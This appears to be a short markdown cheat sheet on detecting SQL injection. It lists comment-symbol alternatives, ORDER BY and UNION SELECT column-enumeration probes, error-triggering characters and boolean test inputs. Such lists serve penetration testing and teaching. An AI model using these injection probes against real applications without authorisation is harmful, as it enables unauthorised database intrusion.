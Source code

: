 <h1>SQL injection detection</h1>

# IN BAND (Classic)

# UNION BASED


"--" Symbol Alternative
```
— 	Inline comment
#	Inline comment
/* 	Block comment
*/ 	Block comment
```
# Column enumeration 

======================================================================================================================================================================
Method 1
```
ORDER BY 1 --+
ORDER BY 2 --+
ORDER BY 3 --+
ORDER BY 4 --+
ORDER BY 5 --+
ORDER BY 6 --+
ORDER BY 7 --+
ORDER BY 8 --+
ORDER BY 9 --+
ORDER BY 10 --+
ORDER BY 11 --+.....
```

=======================================================================================================================================================================
 ORDER BY 1 --+   
 Alternative :  ' ORDER BY 1 --+ ; " ORDER BY 1 --+ ;

Method 2

```
UNION SELECT NULL --+
UNION SELECT NULL,NULL --+
UNION SELECT NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+ ......................................
```
==================================================================================================================

Method 3

```
UNION SELECT 1 --+
UNION SELECT 1,2 --+
UNION SELECT 1,2,3 --+
UNION SELECT 1,2,3,4 --+
UNION SELECT 1,2,3,4,5 --+
UNION SELECT 1,2,3,4,5,6 --+
UNION SELECT 1,2,3,4,5,6,7 --+
UNION SELECT 1,2,3,4,5,6,7,8 --+
UNION SELECT 1,2,3,4,5,6,7,8,9 --+
UNION SELECT 1,2,3,4,5,6,7,8,9,10 --+
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11 --+ ..........................................................................
```

==========================================================================================================================

ERROR BASED

``` '
''
`
``
,
"
""
/
//
\
\\
;
```
BOOLEAN BASED
```
1 AND 1
2 OR 3
2-1
2^1
3*1

```
Other Resources:
https://www.w3schools.com/sql/sql_comments.asp
